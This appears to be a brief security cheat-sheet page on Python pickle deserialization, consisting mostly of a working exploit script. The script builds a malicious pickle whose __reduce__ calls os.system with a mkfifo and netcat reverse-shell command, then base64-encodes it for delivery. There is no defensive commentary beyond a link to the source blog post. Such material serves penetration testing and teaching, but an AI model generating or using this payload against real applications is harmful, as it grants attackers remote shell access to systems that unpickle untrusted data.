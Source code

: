 ```yaml
---
title: Pickle
---
```


Python's [pickle](https://docs.python.org/3/library/pickle.html) module is used to serialize and deserialize Python objects.

## RCE
```python
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

Source: [Exploiting Python pickles](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)
